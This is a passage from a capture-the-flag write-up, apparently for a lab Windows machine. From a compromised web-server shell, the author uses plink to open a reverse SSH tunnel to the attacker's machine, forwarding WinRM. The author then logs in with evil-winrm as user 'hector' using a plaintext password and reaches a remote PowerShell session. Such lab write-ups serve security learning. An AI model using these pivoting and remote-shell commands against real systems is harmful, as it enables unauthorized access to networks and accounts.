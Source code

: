 5985 port is a new one for us,not given by nmap, the WinRM onw (https://www.speedguide.net/port.php?port=5985). We could try to enter using plink
For this, we need to enable ssh connections in our machine, and execute this command in the victim's:
```
plink.exe -l kali -R 5985:127.0.0.1:5985 10.10.14.17
```
Note: It'll asks for our user credential.

```
C:\inetpub\wwwroot>plink -l kali -R 5985:127.0.0.1:5985 10.10.14.17
plink -l kali -R 5985:127.0.0.1:5985 10.10.14.17
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 2b:90:c5:fe:b9:b8:b0:4c:85:f1:28
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y
Using username "kali".
kali@10.10.14.17's password: ****

Linux kali 5.4.0-kali3-amd64 #1 SMP Debian 5.4.13-1kali1 (2020-01-20) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
kali@kali:~$ 
```

Now, we can use evil-winrm: https://github.com/Hackplayers/evil-winrm

For installing it, the easy way is:
```
sudo gem install evil-winrm
```
Now, launch it!
```
kali@kali:~/Downloads/evil-winrm-master$ ruby evil-winrm.rb -i 127.0.0.1 -u hector -p l33th4x0rhector

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Hector\Documents> whoami
control\hector

```
